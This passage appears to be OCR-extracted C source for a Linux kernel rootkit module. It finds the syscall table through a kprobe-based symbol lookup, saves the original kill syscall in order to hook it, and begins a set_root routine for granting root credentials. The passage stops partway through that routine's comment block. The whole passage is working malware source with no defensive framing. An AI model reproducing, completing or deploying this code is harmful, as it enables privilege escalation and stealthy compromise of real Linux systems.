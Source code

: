                   // To store the address of the found sys_call_table
                  static unsigned long *__sys_call_table;

                  // Defining a custom function type to store original syscalls
                  typedef asmlinkage long (*tt_syscall)(const struct pt_regs *);

                  static tt_syscall orig_kill;

                  /* For storing address of sys_call_table */

                  unsigned long *get_syscall_table(void)
                  {
                    unsigned long *syscall_table;

                    //Defining custom kallsyms_lookup_name data type named: kallsyms_lookup_name_t, so that kallsyms_lookup_name be exported to kernel (>5.7)
                    
                    /* // Lookup the address for a symbol. Returns 0 if not found.
                    * unsigned long kallsyms_lookup_name(const char *name);
                    * 
                    */
                    typedef unsigned long (*kallsyms_lookup_name_t)(const char *name);
                    
                    kallsyms_lookup_name_t kallsyms_lookup_name;
                    register_kprobe(&kp);
                    kallsyms_lookup_name = (kallsyms_lookup_name_t) kp.addr;
                    unregister_kprobe(&kp);

                    syscall_table = (unsigned long*)kallsyms_lookup_name("sys_call_table");
                    return syscall_table;
                  }

                  // ============================= Alloting root privileges ==================

                  static void set_root(void)
                  {
                    /*
                    * pwd: /lib/modules/5.11.0-49-generic/build/include/linux/cred.h
                    * 
                    * struct cred {
                    * 	...
                    *	kuid_t		uid;		// real UID of the task
                    *	kgid_t		gid;		// real GID of the task 
                    * 	kuid_t		suid;		// saved UID of the task
                    *	kgid_t		sgid;		// saved GID of the task
                    *	kuid_t		euid;		// effective UID of the task
                    *	kgid_t		egid;		// effective GID of the task
                    *	kuid_t		fsuid;		// UID for VFS ops
                    *	kgid_t		fsgid;		// GID for VFS ops
                    *	...
                    * };
                    * 
                    * ...
                    * extern struct cred *prepare_creds(void);	// returns current credentials of the process
                    * ...
                    * extern int commit_creds(struct cred *);	// For setting modified values of ids to cred structure
                    */
